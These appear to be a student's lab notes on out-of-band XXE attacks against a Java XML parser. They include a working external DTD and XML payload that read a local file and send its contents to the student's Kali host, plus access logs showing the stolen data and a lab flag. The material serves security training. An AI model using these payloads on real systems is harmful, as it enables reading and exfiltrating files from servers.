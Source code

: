 ```bash
192.168.228.110 - - [22/Oct/2024:00:44:22 +0000] "GET /external.dtd HTTP/1.1" 200 435 "-" "Java/1.8.0_292"
192.168.228.110 - - [22/Oct/2024:00:44:22 +0000] "GET /out?Etc/UTC HTTP/1.1" 404 492 "-" "Java/1.8.0_292"
```

Once again the web application requested external.dtd from our Kali host and then made a request for `/out` with the contents of `/etc/timezone` in the query string. While there may be some limits on what data we can access using an out-of-band attack, this is still a very useful technique against a vulnerable parser when other XXE attacks fail.


##### Labs
![[Pasted image 20241021205849.png]]
created new `external.dtd` with vulnerable `.txt`
`external.dtd`
```xml
<!ENTITY % content SYSTEM "file:///root/oob.txt">
<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://192.168.45.222/out?%content;'>" >
```
entered `xml` payload to reach out to my kali machine
```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE oob [
<!ENTITY % base SYSTEM "http://192.168.45.222/external.dtd"> 
%base;
%external;
%exfil;
]>
<entity-engine-xml>
</entity-engine-xml>
```
can see flag here `OS{xxeOOB}`
![[Pasted image 20241021210032.png]]
can also see by running the `access.log`
```bash
┌──(root💀gobots)-[22Oct2024 00:47:43]-[/var/www/html]
└─# tail /var/log/apache2/access.log
192.168.228.110 - - [22/Oct/2024:00:40:15 +0000] "GET /external.dtd HTTP/1.1" 200 433 "-" "Java/1.8.0_292"
192.168.228.110 - - [22/Oct/2024:00:44:22 +0000] "GET /external.dtd HTTP/1.1" 200 435 "-" "Java/1.8.0_292"
192.168.228.110 - - [22/Oct/2024:00:44:22 +0000] "GET /out?Etc/UTC HTTP/1.1" 404 492 "-" "Java/1.8.0_292"
192.168.228.110 - - [22/Oct/2024:00:47:52 +0000] "GET /external.dtd HTTP/1.1" 200 435 "-" "Java/1.8.0_292"
192.168.228.110 - - [22/Oct/2024:00:47:52 +0000] "GET /out?OS{xxeOOB} HTTP/1.1" 404 492 "-" "Java/1.8.0_292"

```